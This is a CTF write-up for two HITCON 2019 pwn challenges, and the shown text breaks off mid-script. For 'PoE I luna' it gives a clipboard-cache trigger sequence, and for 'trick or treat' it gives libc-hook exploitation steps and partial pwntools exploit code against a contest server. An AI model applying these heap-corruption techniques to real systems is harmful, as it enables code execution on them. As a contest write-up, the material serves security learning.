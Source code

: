 # HITCON CTF 5th 2019 Writeup (A\*0\*E)

## Pwn

### PoE I luna 

An editor run in QEMU VM, no PIE. The bug is inconsistency of clipboard cache caused by `cut` and `paste`. For example, 

```python
insert(0, 'q'*0xff)
newtab() # 1 
insert(0, 'qweqwe') 
cut(0, 6)
to(0) # 0 
cut(0, 128)
newtab() # 2 
insert(0, 'a'*160)
to(1)  # 1 
paste(0) # vul
show(0, 0x38)
```

Before `paste(0)`, the clipboard `cachebuf` is tab1's `cachebuf`, but `size` is tab0's `size` . After `paste(0)`, tab1 gets back the original `cachebuf`, but now `size` becomes 128, which is larger than `len('qweqwe')`. With `replace` feature, we can do overflow to corrupt tab2's `cachebuf`, then boom.

Exploit is [here](https://gist.github.com/elnx/fd7f579ac828e5f3eae183cb5473b1ec).

### trick or treat

- malloc a big chunk to leak libc
- write stdin `_IO_base_buffer` then the input buffer will be the libc's bss.  
- overwrite libc's bss, change the CTYPE table then scanf will consider any char as number.  
- write system pointer to realloc hook and send /bin/sh

```python
from pwn import *
context.log_level="debug"
context.arch="amd64"
pwn_file="./trick_or_treat"
elf=ELF(pwn_file)
libc=ELF("./libc.so.6")
r=remote("3.112.41.140",56746)

def getoff(off):
    return hex((off/8)&0xffffffffffffffff)

size = 0x10000000
r.sendlineafter('Size:', str(size))
r.recvuntil('Magic:')
leak = r.recvline()
buf = int(leak,16)
libc.address = buf-0x10+size+0x1000
print hex(libc.address)
off = getoff(libc.address+0x3eba40-buf)
val =  hex(libc.address+0x3eba40+0x2000)
r.sendlineafter('Value:', off + ' '+ val)

f = {
    0:libc.address+0x3ed8c0,
    0x1a8:p64(libc.address+0x117cdc),# malloc hook
    0x1a0:p64(libc.sym["system"]),
```